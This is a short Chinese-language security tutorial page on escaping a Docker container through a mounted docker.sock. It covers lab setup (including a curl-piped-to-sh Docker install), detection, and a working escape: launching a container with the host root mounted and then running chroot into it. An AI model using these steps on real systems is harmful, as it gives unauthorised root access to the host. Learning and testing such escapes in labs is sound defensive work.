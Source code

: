 ```yaml
---
title: 挂载 Docker Socket 逃逸


---
```


<center><h1>挂载 Docker Socket 逃逸</h1></center>

---

Docker Socket 用来与守护进程通信即查询信息或者下发命令。

# 搭建

创建一个容器并挂载 /var/run/docker/sock 文件

```plain
docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

在容器内安装 Docker 命令行客户端

```plain
docker exec -it with_docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

# 检测

```plain
ls -lah /var/run/docker.sock
```

如果存在这个文件，说明漏洞可能存在

# 复现

在容器内部创建一个新的容器，并将宿主机目录挂载到新的容器内部

```plain
docker run -it -v /:/host ubuntu /bin/bash
```

<img width="1200" src="/img/1650014060.png">

在新的容器内执行 chroot，将根目录切换到挂载到宿主机的根目录，其实不挂载也行

```plain
chroot /host
```

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>